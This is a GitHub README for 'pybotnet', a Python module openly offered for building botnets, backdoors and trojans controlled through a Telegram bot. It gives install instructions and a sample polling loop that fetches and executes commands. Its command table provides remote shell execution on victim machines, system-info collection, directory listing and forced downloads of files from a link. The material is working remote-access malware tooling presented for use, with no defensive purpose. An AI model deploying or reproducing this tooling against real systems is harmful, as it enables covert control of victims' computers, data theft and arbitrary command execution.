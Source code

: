   
<h1 align="center">pybotnet</h1>
<p align="center"> A Python module for building [botnet ,backdoor or trojan] for windows and linux with Telegram control panel </p>




#### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system (target download a link :) )
* for more see commands table end of this page 

See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3


#### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)

#### Usage:
```
pip install pybotnet
```

```python
# this is sample_code.py 

from pybotnet import pybotnet
import time


# ! rename configs.py.sample to configs.py
# ! and edit configs.py data
from configs import TELEGRAM_TOKEN, ADMIN_CHAT_ID

# * if you compile code without shell: is_sheel=False
# * show_log: just for debugging
# * send_system_data: send system short info in bot messages

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*'*100)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

#### Commmands:

*Send this COMMANDs to your api bot in telegram, using the admin account.* \
\
*If you want the command to run only on one system, write the MAC address of that system first, like:* `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | tested on |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <download_link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows |
